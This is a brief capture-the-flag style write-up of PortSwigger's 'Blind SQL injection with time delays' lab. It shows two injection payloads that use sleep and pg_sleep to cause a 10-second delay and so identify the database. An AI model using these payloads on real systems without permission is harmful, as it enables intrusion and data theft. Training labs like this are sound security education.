 # SQL Injection Part 5: Portswigger Labs
### [Lab 13: Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

**To solve: Make 10 second time delay**

**STEP 1:**
Find the database used & create time delay
```html
' || (SELECT sleep(10))-- //No time delay

' || (SELECT pg_sleep (10))-- //10 sec time delay
```
